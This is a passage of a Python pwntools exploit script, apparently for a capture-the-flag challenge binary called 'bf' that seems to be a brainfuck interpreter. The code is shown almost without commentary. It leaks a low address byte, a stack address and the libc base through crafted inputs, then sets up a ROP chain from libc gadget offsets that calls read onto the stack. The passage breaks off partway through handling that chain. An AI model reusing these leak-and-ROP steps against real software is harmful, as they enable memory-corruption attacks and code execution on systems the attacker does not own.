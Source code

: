 ```python
	global p
	if host:
		p = remote(host,port)
	else:
		p = process("./bf")
		
		# gdb.attach(p)
	# leak low_bit
	p.recvuntil("enter your code:\n")
	p.sendline(",[.>,]>.")
	p.send("B"*0x3ff+'\x00')
	p.recvuntil("running....\n")
	p.recvuntil("B"*0x3ff)
	low_bit = ord(p.recv(1))
	info(hex(low_bit))
	if low_bit + 0x70 >= 0x100:	# :(
		sys.exit(0)
	# debug(0x000000000001C47)
	p.recvuntil("continue?\n")
	p.send('y')
	
	
	# leak stack
	p.recvuntil("enter your code:\n")
	p.sendline(",[>,]>,")
	p.recvuntil("running....\n")
	p.send("B"*0x3ff+'\x00')
	p.send(chr(low_bit+0x20))
	p.recvuntil("your code: ")
	stack = u64(p.recvuntil("\n",drop=True).ljust(8,"\x00")) - 0xd8
	info("stack : " + hex(stack))
	p.recvuntil("continue?\n")
	p.send('y')
	# leak libc
	
	p.recvuntil("enter your code:\n")
	p.sendline(",[>,]>,")
	p.recvuntil("running....\n")
	p.send("B"*0x3ff+'\x00')
	p.send(chr(low_bit+0x38))
	p.recvuntil("your code: ")
	libc.address = u64(p.recvuntil("\n",drop=True).ljust(8,"\x00")) - 0x21b97
	info("libc : " + hex(libc.address))
	p.recvuntil("continue?\n")
	p.send('y')
	
	# do rop
	
	# 0x00000000000a17e0: pop rdi; ret;
	# 0x00000000001306d9: pop rdx; pop rsi; ret;
	p_rdi = 0x00000000000a17e0 + libc.address
	p_rdx_rsi = 0x00000000001306d9 + libc.address
	ret = 0x00000000000d3d8a + libc.address
	p_rax = 0x00000000000439c8 + libc.address
	syscall_ret = 0x00000000000d2975 + libc.address
	
	rop_chain = [
		0,0,p_rdi,0,p_rdx_rsi,0x100,stack,libc.symbols["read"]
	]
	
	rop_chain_len = len(rop_chain)
	
	for i in range(rop_chain_len-1,0,-1):
```